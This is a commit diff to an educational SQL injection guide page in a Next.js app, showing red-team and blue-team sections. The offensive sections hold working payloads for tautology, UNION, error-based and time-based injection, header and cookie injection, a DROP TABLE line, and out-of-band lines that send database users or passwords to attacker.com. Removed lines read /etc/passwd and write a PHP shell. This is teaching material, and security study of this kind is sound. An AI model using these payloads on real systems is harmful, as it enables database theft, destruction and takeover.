

Before and after one commit to AnonAmosAdmn/HackingResourcesGuide, a Next.js app: page /sql-injection in a window 1280 px wide. Shown: the part 1340-2793 px from the top of the page at 96% size, without its empty margins (192-1087 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update page.tsx

```diff
--- a/app/sql-injection/page.tsx
+++ b/app/sql-injection/page.tsx
@@ -2,7 +2,7 @@
 export default function SQLInjectionPage() {
   return (
     <main className="p-8 max-w-4xl mx-auto font-sans text-white">
-      <h1 className="text-4xl font-extrabold mb-8 text-purple-600">SQL Injection (SQLi) Comprehensive Guide</h1>
+      <h1 className="text-4xl font-extrabold mb-8 text-purple-600">SQL Injection (SQLi)</h1>
 
       <section className="mb-8">
         <h2 className="text-2xl font-bold mb-3">What is SQL Injection?</h2>
@@ -21,12 +21,24 @@
         </div>
       </section>
 
+
+
+
+
+
       <section className="mb-10">
         <h2 className="text-3xl font-semibold mb-4 text-red-600">Red Team Techniques (Offensive)</h2>
 
+
+
+
+
         <article className="mb-6 bg-gray-900 p-4 rounded-lg">
-          <h3 className="text-xl font-semibold mb-2 text-red-400">1. Basic Injection Testing</h3>
+          <h3 className="text-xl font-semibold mb-2 text-red-400">1. Basic SQL-Injection Testing</h3>
 
+          <p className="text-gray-300 mb-4">
+            Classic SQL Injection occurs when unsanitized user input is directly inserted into an SQL query, allowing attackers to manipulate the query structure. This can result in unauthorized access, data leakage, or full database compromise. It's one of the earliest and most well-known web application vulnerabilities.
+          </p>
           <h4 className="font-medium mb-1 mt-3">Common Payloads</h4>
           <pre className="bg-gray-700 p-3 rounded overflow-auto">
 {`' OR '1'='1
@@ -42,8 +54,17 @@
           </pre>
         </article>
 
+
+
+
+
+
         <article className="mb-6 bg-gray-900 p-4 rounded-lg">
-          <h3 className="text-xl font-semibold mb-2 text-red-400">2. Union-Based Injection</h3>
+          <h3 className="text-xl font-semibold mb-2 text-red-400">2. Union-Based SQL-Injection</h3>
+
+          <p className="text-gray-300 mb-4">
+            UNION-Based SQL Injection leverages the SQL <code className="text-red-300">UNION</code> operator to combine results from multiple queries into a single response. If the original query returns data that is shown on the page, the attacker can inject additional queries using <code className="text-red-300">UNION SELECT</code> to retrieve sensitive information such as usernames, passwords, or version info.
+          </p>
 
           <h4 className="font-medium mb-1 mt-3">Column Enumeration</h4>
           <pre className="bg-gray-700 p-3 rounded overflow-auto">
@@ -61,8 +82,17 @@
           </pre>
         </article>
 
+
+
+
+
+
         <article className="mb-6 bg-gray-900 p-4 rounded-lg">
-          <h3 className="text-xl font-semibold mb-2 text-red-400">3. Blind Injection</h3>
+          <h3 className="text-xl font-semibold mb-2 text-red-400">3. Blind SQL-Injection</h3>
+
+          <p className="text-gray-300 mb-4">
+            Blind Injection is a type of SQL Injection attack where the attacker cannot see the direct output of their payloads on the web page. Instead, they infer information from the behavior of the application—such as changes in page content, timing, or response codes—to extract data from the database. It's often used when error messages or query results are not visible to the attacker.
+          </p>
 
           <h4 className="font-medium mb-1 mt-3">Boolean-Based</h4>
           <pre className="bg-gray-700 p-3 rounded overflow-auto">
@@ -78,71 +108,224 @@
           </pre>
         </article>
 
+
+
+
         <article className="mb-6 bg-gray-900 p-4 rounded-lg">
-          <h3 className="text-xl font-semibold mb-2 text-red-400">4. Advanced Techniques</h3>
+          <h3 className="text-xl font-semibold mb-2 text-red-400">4. SQL Injection via HTTP Headers</h3>
 
-          <h4 className="font-medium mb-1 mt-3">Out-of-Band (OOB)</h4>
-          <pre className="bg-gray-700 p-3 rounded overflow-auto">
-{`Oracle:
-UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT password FROM users WHERE username='admin'))
+          <p className="mb-3">
+            Some web applications improperly trust HTTP header values such as <code>User-Agent</code>, <code>Referer</code>, and <code>X-Forwarded-For</code> and include them directly in SQL queries without proper sanitization, leading to injection vulnerabilities.
+          </p>
 
-MSSQL:
-EXEC master..xp_dirtree '\\attacker.com\'+(SELECT TOP 1 password FROM users)'`}
+          <h4 className="font-medium mb-1">Example: Malicious Header Injection</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`GET /profile HTTP/1.1
+Host: vulnerable.com
+User-Agent: ' OR 1=1--`}
           </pre>
 
-          <h4 className="font-medium mb-1 mt-3">Second-Order</h4>
-          <pre className="bg-gray-700 p-3 rounded overflow-auto">
-{`Register with username: '; UPDATE users SET password='hacked' WHERE username='admin'--`}
+          <h4 className="font-medium mb-1">Sample Payloads in Headers</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`X-Forwarded-For: 127.0.0.1' OR SLEEP(5)--
+Referer: ' UNION SELECT username, password FROM users--`}
           </pre>
+
+
         </article>
 
-        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
-          <h3 className="text-xl font-semibold mb-2 text-red-400">5. Database-Specific Payloads</h3>
 
-          <h4 className="font-medium mb-1 mt-3">MySQL</h4>
-          <pre className="bg-gray-700 p-3 rounded overflow-auto">
-{`SELECT LOAD_FILE('/etc/passwd')
-SELECT @@datadir
-INTO OUTFILE '/var/www/shell.php'`}
+
+
+
+
+
+<article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">5. SQL Injection via Cookies</h3>
+
+          <p className="mb-3">
+            Cookies are client-controlled data sent with requests. If an application uses cookie values directly in SQL queries without proper sanitization, attackers can inject malicious SQL to exploit the database.
+          </p>
+
+          <h4 className="font-medium mb-1">Example: Malicious Cookie Injection</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`Cookie: sessionId=xyz' OR '1'='1`}
           </pre>
 
-          <h4 className="font-medium mb-1 mt-3">MSSQL</h4>
-          <pre className="bg-gray-700 p-3 rounded overflow-auto">
-{`EXEC xp_cmdshell 'whoami'
-SELECT * FROM OPENROWSET('SQLOLEDB','server';'sa';'password','SELECT 1')`}
+          <h4 className="font-medium mb-1">Sample Payloads in Cookies</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`Cookie: authToken=abc' OR 'x'='x
+Cookie: userPref=1'; DROP TABLE users--`}
           </pre>
 
-          <h4 className="font-medium mb-1 mt-3">Oracle</h4>
-          <pre className="bg-gray-700 p-3 rounded overflow-auto">
-{`SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM users WHERE username='admin')) FROM dual`}
-          </pre>
+
         </article>
 
+
+
+
+
+
         <article className="mb-6 bg-gray-900 p-4 rounded-lg">
-          <h3 className="text-xl font-semibold mb-2 text-red-400">6. Tools & Automation</h3>
+          <h3 className="text-xl font-semibold mb-2 text-red-400">6. Error-Based SQL Injection</h3>
 
-          <h4 className="font-medium mb-1 mt-3">Discovery</h4>
-          <ul className="list-disc list-inside ml-4 space-y-1">
-            <li>Burp Suite Scanner</li>
-            <li>SQLiPy (Burp plugin)</li>
-            <li>Havij</li>
+          <p className="mb-3">
+            Error-Based SQL Injection exploits the databases error messages to extract information. Attackers intentionally cause the database to produce errors that include valuable details such as table names, column names, or even data.
+          </p>
+
+          <h4 className="font-medium mb-1">How It Works</h4>
+          <p className="mb-3">
+            By injecting malformed SQL syntax or using specific database functions that cause errors, attackers can view database error responses directly in the web application's output if error handling is insufficient.
+          </p>
+
+          <h4 className="font-medium mb-1">Example: Forcing an Error to Leak Data</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`http://example.com/page.php?id=1' AND updatexml(null, concat(0x7e, (SELECT user())), null)--`}
+          </pre>
+          <p className="text-sm text-gray-400 mb-3">
+            This payload uses MySQLs <code>updatexml()</code> function to force an XML parsing error that leaks the database user.
+          </p>
+
+          <h4 className="font-medium mb-1">Common Error-Based Payloads</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`' AND extractvalue(1,concat(0x7e,(SELECT database()),0x7e))--
+' AND updatexml(null,concat(0x7e,(SELECT version()),0x7e),null)--
+' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT @@version),0x3a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)--
+`}
+          </pre>
+
+
+        </article>
+
+
+
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">7. Time-Based Blind SQL Injection</h3>
+
+          <p className="mb-3">
+            Time-Based Blind SQL Injection is used when an application does not return error messages or data directly, but the attacker can infer information by observing time delays in the application's response caused by specially crafted SQL queries.
+          </p>
+
+          <h4 className="font-medium mb-1">How It Works</h4>
+          <p className="mb-3">
+            Attackers inject SQL that forces the database to wait (sleep) for a certain period if a condition is true. By measuring the time it takes for the server to respond, the attacker can infer whether the condition holds, gradually extracting data one bit at a time.
+          </p>
+
+          <h4 className="font-medium mb-1">Common Time-Based Payloads</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`-- MySQL
+?id=1 AND IF(SUBSTRING((SELECT database()),1,1)='a', SLEEP(5), 0)
+
+-- Microsoft SQL Server
+?id=1; IF (SUBSTRING((SELECT @@version),1,1)='M') WAITFOR DELAY '00:00:05'--
+
+-- Oracle
+?id=1 AND 1=(CASE WHEN (SUBSTR((SELECT user FROM dual),1,1)='A') THEN TO_CHAR(DBMS_LOCK.SLEEP(5)) ELSE 1 END)`}
+          </pre>
+
+          <h4 className="font-medium mb-1">Example</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`http://example.com/item?id=1 AND IF(SUBSTRING((SELECT user()),1,1)='r', SLEEP(5), 0)--`}
+          </pre>
+          <p className="text-sm text-gray-400 mb-3">
+            This payload checks if the first character of the database user is "r". If true, the server pauses for 5 seconds, indicating a positive result.
+          </p>
+
+
+        </article>
+
+
+
+
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">8. Out-of-Band (OOB) SQL Injection</h3>
+
+          <p className="mb-3">
+            Out-of-Band SQL Injection occurs when attackers use the database’s ability to make network requests to external servers to exfiltrate data or interact with external systems. This method is especially useful when the application does not directly return data or errors.
+          </p>
+
+          <h4 className="font-medium mb-1">How It Works</h4>
+          <p className="mb-3">
+            The attacker injects payloads that cause the database to send DNS or HTTP requests to a server they control. By monitoring these requests, the attacker can extract information such as database names, user credentials, or other sensitive data.
+          </p>
+
+          <h4 className="font-medium mb-1">Common OOB Techniques</h4>
+          <ul className="list-disc list-inside ml-4 mb-4 space-y-1">
+            <li><strong>DNS Exfiltration:</strong> Using database functions to trigger DNS lookups containing data encoded in subdomains.</li>
+            <li><strong>HTTP Requests:</strong> Making HTTP requests to attacker-controlled servers via functions like <code>xp_dirtree</code> in MSSQL or <code>UTL_HTTP.REQUEST</code> in Oracle.</li>
           </ul>
 
-          <h4 className="font-medium mb-1 mt-3">Exploitation</h4>
+          <h4 className="font-medium mb-1">Example: MSSQL DNS Lookup</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`'; EXEC master..xp_dirtree '\\attacker.com\${user}\'--`}
+          </pre>
+          <p className="text-sm text-gray-400 mb-3">
+            This payload forces the database server to perform a DNS lookup to the attacker’s domain with the database user appended, leaking the user info externally.
+          </p>
+
+          <h4 className="font-medium mb-1">Example: Oracle HTTP Request</h4>
+          <pre className="bg-gray-700 p-3 rounded overflow-auto mb-3">
+{`'; BEGIN
+  UTL_HTTP.REQUEST('http://attacker.com/' || (SELECT user FROM dual));
+END;--`}
+          </pre>
+          <p className="text-sm text-gray-400 mb-3">
+            This triggers an HTTP request to the attacker’s server including the current database user.
+          </p>
+
+
+        </article>
+
+
+
+        <article className="mb-6 bg-gray-900 p-4 rounded-lg">
+          <h3 className="text-xl font-semibold mb-2 text-red-400">SQL Injection Tools & Automation</h3>
+
+          <h4 className="font-medium mb-1 mt-3">Discovery & Scanning</h4>
           <ul className="list-disc list-inside ml-4 space-y-1">
-            <li>sqlmap</li>
-            <li>NoSQLMap (for NoSQL)</li>
-            <li>BBQSQL (blind SQLi)</li>
+            <li>sqlmap – Automated SQL injection and database takeover tool</li>
+            <li>Burp Suite Scanner – Active scanning and detection of SQLi</li>
+            <li>sqlninja – Exploitation tool for Microsoft SQL Server injection</li>
+            <li>Havij – User-friendly automated SQL injection tool</li>
+            <li>jSQL Injection – Lightweight SQLi detection and exploitation tool</li>
           </ul>
 
-          <h4 className="font-medium mb-1 mt-3">Post-Exploitation</h4>
+          <h4 className="font-medium mb-1 mt-3">Exploitation & Payload Generation</h4>
           <ul className="list-disc list-inside ml-4 space-y-1">
-            <li>PowerUpSQL (MSSQL)</li>
-            <li>ODAT (Oracle)</li>
-            <li>MySQL UDF Exploitation</li>
+            <li>sqlmap – Supports automated payload generation and exploitation</li>
+            <li>sqlninja – Targeted exploitation for MSSQL</li>
+            <li>Havij – Automated extraction and payload crafting</li>
+            <li>Manual payload crafting with tools like Burp Repeater</li>
+          </ul>
+
+          <h4 className="font-medium mb-1 mt-3">Post-Exploitation & Reporting</h4>
+          <ul className="list-disc list-inside ml-4 space-y-1">
+            <li>sqlmap – Database takeover, file system access, command execution</li>
+            <li>Burp Suite Intruder – Custom payload fuzzing</li>
+            <li>Automated reporting and exporting of findings</li>
           </ul>
         </article>
+
       </section>
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
+
 
       <section className="mb-10">
         <h2 className="text-3xl font-semibold mb-4 text-blue-600">Blue Team Defenses (Defensive)</h2>
@@ -254,6 +437,21 @@
         </article>
       </section>
 
+
+      <div className="mb-12 p-4 bg-gray-800 rounded-lg border-l-4 border-blue-500">
+        <h3 className="text-lg font-semibold mb-2 text-blue-400">SQL Injection Mitigation Checklist</h3>
+        <ul className="list-disc list-inside ml-4 space-y-1">
+          <li>Use parameterized queries/prepared statements exclusively</li>
+          <li>Implement strict input validation (whitelisting preferred)</li>
+          <li>Apply principle of least privilege to database accounts</li>
+          <li>Disable verbose error messages in production</li>
+          <li>Regularly update database software and libraries</li>
+          <li>Implement WAF rules for SQLi patterns</li>
+          <li>Monitor for suspicious database activity</li>
+          <li>Conduct regular security testing and code reviews</li>
+        </ul>
+      </div>
+
       <section className="mb-12">
         <h2 className="text-3xl font-semibold mb-4">Additional Resources & References</h2>
         <div className="space-y-6">
@@ -299,20 +497,6 @@
           </div>
         </div>
       </section>
-
-      <div className="p-4 bg-gray-800 rounded-lg border-l-4 border-purple-500">
-        <h3 className="text-lg font-semibold mb-2 text-purple-400">SQL Injection Mitigation Checklist</h3>
-        <ul className="list-disc list-inside ml-4 space-y-1">
-          <li>Use parameterized queries/prepared statements exclusively</li>
-          <li>Implement strict input validation (whitelisting preferred)</li>
-          <li>Apply principle of least privilege to database accounts</li>
-          <li>Disable verbose error messages in production</li>
-          <li>Regularly update database software and libraries</li>
-          <li>Implement WAF rules for SQLi patterns</li>
-          <li>Monitor for suspicious database activity</li>
-          <li>Conduct regular security testing and code reviews</li>
-        </ul>
-      </div>
     </main>
   );
 }
```
